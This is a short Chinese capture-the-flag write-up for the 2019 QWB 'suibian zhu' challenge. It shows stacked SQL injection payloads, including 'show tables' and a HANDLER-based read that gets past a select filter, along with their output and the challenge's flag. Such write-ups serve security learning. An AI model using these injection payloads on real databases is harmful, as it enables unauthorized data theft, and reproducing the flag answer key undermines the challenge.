 # T4 随便注

> 题目：[强网杯 2019]随便注

__0x00 审题__

```
取材于某次真实环境渗透，只说一句话：开发和安全缺一不可
```

然后是姿势注入，考虑到与T3神似，直接开始操作

__0x01 解题__

1. 输入：1'
> 报错

2. 输入：1';show tables;
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```
3. 查看两个表的结构：desc `1919810931114514`
```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```
4. 输入select，如出一辙遭到过滤，使用handler：1';handler `1919810931114514` open;handler `1919810931114514` read first;handler `1919810931114514` close;

5. 答案轻松get

__0x02 答案__

```
flag{8b96e78d-b61e-49ed-ba54-2f7e921e7c33}
```

__0x03 总结__

1. 题目上说根据现实，现实场景又是如何实现的
2. 题目的[其余解法](https://blog.csdn.net/qq_26406447/article/details/90643951)
